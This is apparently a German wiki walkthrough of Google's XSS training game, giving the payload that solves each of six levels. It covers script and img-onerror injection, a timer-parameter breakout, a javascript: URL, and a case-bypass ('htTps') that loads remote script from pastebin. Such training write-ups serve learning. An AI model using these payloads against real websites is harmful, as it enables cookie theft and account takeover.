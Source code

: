 ## XSS (Cross-Site-Scripting)
Bei XSS geht es darum "evil code" in eine Webseite einzuschleusen um dadurch dann an Informationen zu kommen, welche nicht für den Benutzer bestimmt sind. Google hat ein [Game](https://xss-game.appspot.com/) dafür entwickelt. Ich beschreibe hier die Level, und wie man zum gewünschten Resultat kommt.



----

### Level 1
Im ersten Level hat man ein Eingabefeld zur Verfügung. Da die Daten, welche in diesem Feld sind, nicht escaped werden, kann man nur 


```<script>alert(1)</script>```
eingeben und man erreicht das Ziel.



----

### Level 2
Im zweiten Level hat man ebenfalls ein Eingabefeld. Diesmal kann man eine Ausführung von [JavaScript](/wiki/programmiersprachen/javascript) nicht einfach nur durch eingabe des "<script>"-Tags erzielen. Man gibt folgendes ein:
```<img src="x" onerror="alert(1)">```
Da man jetzt ein Bild lädt, welches nicht existiert, wird das Script im "onerror" ausgeführt.



----

### Level 3
In diesem Level muss man Code über die [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode einschleusen. Diesmal muss man direkt nach dem "#" ein " ' " (Hochkomma) platzieren, damit im Webseiten-Code die parseInt() funktion nicht mehr greift. Danach fügt man ebenfalls wieder ein Bild ein, welches auf "onerror" ein Script ausführt.
``` https://xss-game.appspot.com/level3/frame#');<img src="x" onerror="alert(1)"> ```



----

### Level 4
Im vierten Level geht es darum einen JavaScript Timer zu manipulieren. Dieser nimmt die Zeit, welche er warten muss, ebenfalls über die [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode. Diesmal übergibt dem Eingabefeld ein " ' " (Hochkomma). Jetzt wird der Timer unendlich lange zählen (er wird nicht ausgeführt). Der ausgeführte Code sieht dann wie folgt aus:
```startTimer(''')``` In diesem Zustand kann man dann den "timer=" Parameter Manipulieren. Diesmal kann man jedoch nicht einfach eine ")" ("timer=')") danach einfügen, weil der ausgeführte Code dann folgendermassen aussehen würde:
```startTimer('')')```
Jetzt weiss man, dass man so den Code unterbrechen kann. Da man aber nicht "';" schreiben kann ```startTimer('';')``` 
muss man das ";" codieren. Mit %3B erreicht man das.


```
//Parameter
timer='%3B //code here

//Ausgeführte Funktion
startTimer(''); //code here
```
Mit diesem Wissen, könnte man meinen, wäre XSS jetzt möglich.


Ist es nicht. Ein "alert" befehl wird nicht ausgeführt. Man muss dahinter noch irgend welchen weiteren JavaScript Code einfügen. In diesem Beispiel wird einfach eine Variable (b) definiert. Das Resultat sieht dann wie folgt aus
```
//Parameter
timer=')%3Balert(1)%3Bvar b=('

//Ausgeführte Funktion
startTimer('');alert(1);var b=('');
```
Mit diesem Code ist im vierten Level XSS möglich.



----

### Level 5
In diesem Beispiel wird im HTML ''<a href=""<'' Tag der Wert aus der [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode geholt. Dies kann man nutzen und führt bei Klicken auf den Button JavaScript Code aus. Erzielt wird das, indem man den (next) Parameter folgendermassen manipuliert:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```



----

### Level 6
Dieses Level ist das schwierigste von allen. Man muss über den GET-Parameter schadhaften Code von einem [Hosting](http://pastebin.com/raw/rTRPYeNk) einfügen. Da das JavaScript jedoch nur "https:" nicht zulässt (CaseSensitive) kann man den Parameter der [URL](/wiki/url) folgendermassen manipulieren ("htTps"):
```
https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
```







----

[Die Gesamtlösungen (Englisch)](http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/)